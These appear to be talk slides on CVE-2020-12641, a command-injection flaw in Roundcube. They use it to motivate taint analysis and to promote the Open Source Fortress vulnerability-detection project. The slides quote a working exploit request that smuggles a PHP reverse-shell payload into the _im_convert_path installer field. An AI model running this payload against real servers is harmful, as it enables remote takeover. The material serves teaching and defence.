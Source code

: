 * The attacker sends a `POST` request to the installer:

  ```
  POST /roundcube/installer/index.php HTTP/1.1
  Host: 192.168.243.153
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1049

  _step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&
  _im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3b
  exec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
  ```

* The attacker sends an email containing an image of non-standard format.
* Roundcube will try to convert the image to JPG.
* The command stored in `_im_convert_path` will be used in executed.
* The attacker will have a reverse shell.

> From [DrunkenShells's `Disclosures` repository](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12641-Command%20Injection-Roundcube)



---

## [CVE-2020-12641](https://nvd.nist.gov/vuln/detail/CVE-2020-12641)

* Many unsanitized configuration items (e.g., `_im_convert_path`)
* Arbitrary code execution
* 9.8 CVSS
* 7.66% EPSS
* [Used by APT28 to compromise Ukrainian organisations' servers](https://securityaffairs.com/147681/apt/apt28-hacked-roundcube-ukraine.html)
* Added by CISA in the [Known Exploited Vulnerabilities Catalogue](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

---

## But … Was it preventable?

* Yes, but not with standard linters or scanners
* Taint analysis as a possible solution
  * `rcube->config` as a tainted data source
  * `rcube::exec` as a sensitive sink

---

## The Open Source Fortress

* [ossfortress.io](https://ossfortress.io)
* Lots of OSS tools that can be used to proactively detect vulnerabilities
* Structure
  * Factual information
    - General software and **software security topics**
    - **Brief presentation of each analysis technique**
  * **Practical examples for analysing a vulnerable codebase**
    - Infrastructure and access
    - Documentations
    - Proposed solutions

---